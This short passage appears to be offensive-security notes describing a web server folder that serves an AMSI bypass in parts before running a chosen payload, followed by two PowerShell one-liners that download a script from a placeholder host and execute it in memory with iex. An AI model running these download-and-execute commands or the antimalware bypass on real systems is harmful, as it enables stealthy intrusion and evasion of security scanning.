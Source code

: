 Bypass folder of web server will have AMSI bypass splitted and loaded in parts, then, run whatever payload chosen.
### Powershell useful commands
```
# Load script to memory
(New-Object System.Net.WebClient).DownloadString('http://192.168.X.Y/Tools/Random-Script.ps1') | iex
IEX (New-Object Net.WebClient).DownloadString('http://192.168.X.Y/Tools/Random-Script.ps1')
```

